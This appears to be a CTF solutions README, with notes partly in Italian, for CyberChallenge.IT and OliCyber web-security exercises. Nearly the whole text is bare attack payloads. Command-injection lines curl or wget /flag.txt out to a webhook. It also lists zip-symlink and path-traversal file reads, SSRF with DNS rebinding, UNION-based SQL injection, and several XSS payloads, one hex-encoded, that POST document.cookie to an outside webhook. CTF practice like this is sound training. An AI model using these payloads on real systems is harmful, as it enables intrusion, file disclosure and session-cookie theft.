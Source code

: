 ## Web Security 1

### BasicRCE
url: http://basicrce.challs.cyberchallenge.it/

```
;${IFS}curl${IFS}https://webhook.../$(cat${IFS}/flag.txt)
```

### PHPisLovePHPisLife
url: http://phpislove.challs.cyberchallenge.it/

```
} print${$strings{4}}; //
```

### ZipZap - level 1
url: http://zipzap.challs.cyberchallenge.it/

```
ln -s ../../../../../../../../../../../../../flag.txt flag;
zip --symlinks -r foo.zip flag
```

### Plottyboy
url: http://plottyboy.challs.cyberchallenge.it/

```
system("wget https://webhook.../$(cat /flag.txt)")
```

### SSRF basics - level 1
url: http://ssrf1.challs.cyberchallenge.it/

```
http://localhost/get_flag.php
```

### SSRF basics - level 2
url: http://ssrf2.challs.cyberchallenge.it/

```
http://LOCALHOST/get_flag.php
```

### SSRF basics - level 3
url: http://ssrf3.challs.cyberchallenge.it/

```
http://make-1.2.3.4-rebind-127.0.0.1-rr.1u.ms/get_flag.php
```

### SSRF basics - level 4
url: http://ssrf4.challs.cyberchallenge.it/

```
http://make-1.2.3.4-rebind-127.0.0.1-rr.1u.ms/get_flag.php
```

### Not a bug
url: http://notabug.challs.cyberchallenge.it/

```
http://notabug.challs.cyberchallenge.it/static../app.py
```

### Basic lfi
url: http://basiclfi.challs.cyberchallenge.it/

```
http://basiclfi.challs.cyberchallenge.it/static.php?static_file=../../../flag.txt
```

## Web Security 2

[SQL Injection script](https://github.com/allegrastrippoli/cyber-challenge/blob/main/simone/SQL_injection.ipynb)

### SQL Injection tutorial - Level 1
url: http://web-17.challs.olicyber.it/logic

```
' OR 1=1 -- 
```

### SQL Injection tutorial - Level 2
url: http://web-17.challs.olicyber.it/union

```
1' AND 1=0 UNION SELECT 1, 2, 3, 4, 5, flag FROM real_data --
```

### NF(Lag)T
url: http://web-17.challs.olicyber.it/union

[script](https://github.com/allegrastrippoli/cyber-challenge/blob/main/simone/web_security.ipynb)

## Web Security 3

### XSS Simple 1
url: http://xss1.challs.cyberchallenge.it/

```
<script>fetch("https://webhook...", {method:"POST",body: JSON.stringify({cokie: document.cookie})})</script>
```

nota: si possono passare anche come parametro nella get ex: "www...?cookie" + document.cookie

### XSS Simple 2
url: http://xss2.challs.cyberchallenge.it/

```
https://img..."><script>fetch("https://webhook...", {method:"POST",body: JSON.stringify({cokie: document.cookie})})</script>
```

### XSS Simple 3
url: http://xss3.challs.cyberchallenge.it/

```
https://upload.wikimedia.org/wikipedia/commons/thumb/b/bc/Male_silverback_Gorilla.JPG/440px-Male_silverback_Gorilla.JPG" onload="fetch(&quot;https://webhook...&quot;,{method:&quot;POST&quot;,body:JSON.stringify({cokie:document.cookie})})"
```

### XSS Simple 4
url: http://xss4.challs.cyberchallenge.it/

```
<video src="" onerror = "fetch(&quot;https://webhook...&quot;,{method:&quot;POST&quot;,body:JSON.stringify({cokie:document.cookie})})"></video>
```

### XSS Simple 5
url: http://xss5.challs.cyberchallenge.it/

```
%0dfetch(`https://webhook.site/97a59255-9a3e-4079-8516-8142abfb6c83`,%20{method:`POST`,body:%20JSON.stringify({cokie:%20document.cookie})})%0d
```

### Buy me a flag pls
url: http://buyflag.challs.cyberchallenge.it/

```
http://buyflag.challs.cyberchallenge.it/doTransfer.php?to=29350&amount=10
```

### jpasta
url: http://jpasta.challs.cyberchallenge.it/

```
</script><script>fetch("https://webhook...", {method:"POST",body: JSON.stringify({cokie: document.cookie})})</script>
```
hex encoding (\x delimiter):
```
\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e\x3c\x73\x63\x72\x69\x70\x74\x3e\x66\x65\x74\x63\x68\x28\x22\x68\x74\x74\x70\x73\x3a\x2f\x2f\x77\x65\x62\x68\x6f\x6f\x6b\x2e\x2e\x2e\x22\x2c\x20\x7b\x6d\x65\x74\x68\x6f\x64\x3a\x22\x50\x4f\x53\x54\x22\x2c\x62\x6f\x64\x79\x3a\x20\x4a\x53\x4f\x4e\x2e\x73\x74\x72\x69\x6e\x67\x69\x66\x79\x28\x7b\x63\x6f\x6b\x69\x65\x3a\x20\x64\x6f\x63\x75\x6d\x65\x6e\x74\x2e\x63\x6f\x6f\x6b\x69\x65\x7d\x29\x7d\x29\x3c\x2f\x73\x63\x72\x69\x70\x74\x3e
```

